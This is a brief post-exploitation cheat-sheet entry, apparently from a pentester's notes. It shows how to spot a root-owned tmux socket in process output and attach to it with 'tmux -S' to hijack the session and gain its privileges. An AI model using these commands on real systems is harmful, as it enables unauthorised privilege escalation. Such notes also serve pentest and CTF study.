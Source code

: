 ```yaml
---
tags: [PostEx]
title: PostEx/Hijacking TMUX sessions
created: '2020-02-04T05:01:09.171Z'
modified: '2020-02-04T05:02:36.407Z'
---
```


# PostEx/Hijacking TMUX sessions
Identify the session
```
ps -aux | grep root
...
/usr/bin/tmux -S /.devs/dev_sess
...
```
Hijack
```
tmux -S /.devs/dev_sess
```
